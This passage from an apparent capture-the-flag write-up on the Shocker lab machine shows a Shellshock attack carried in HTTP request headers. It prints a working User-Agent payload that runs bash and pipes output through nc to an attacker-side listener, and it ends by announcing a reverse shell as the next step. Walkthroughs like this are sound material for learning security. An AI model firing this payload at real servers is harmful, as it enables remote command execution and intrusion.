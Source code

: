 ![](images-shocker/15.png)

I remembered an exploit when I was doing research on shellshock, it allows to run arbitrary commands on the server with the help of request headers. Using this opportunity I crafted a test exploit that will send a string to my local system nc listener.

**Exploit:**
- `User-Agent:() { :;};/bin/bash -c 'echo "Hacked By Z3R0x30 :)" | nc 10.10.14.12 1234`

![](images-shocker/16.png)

Yey! We were successfully able to execute our test exploit, now it was time to build something really malicious, something like a ransomware? Nah just kidding, just a reverse shell.
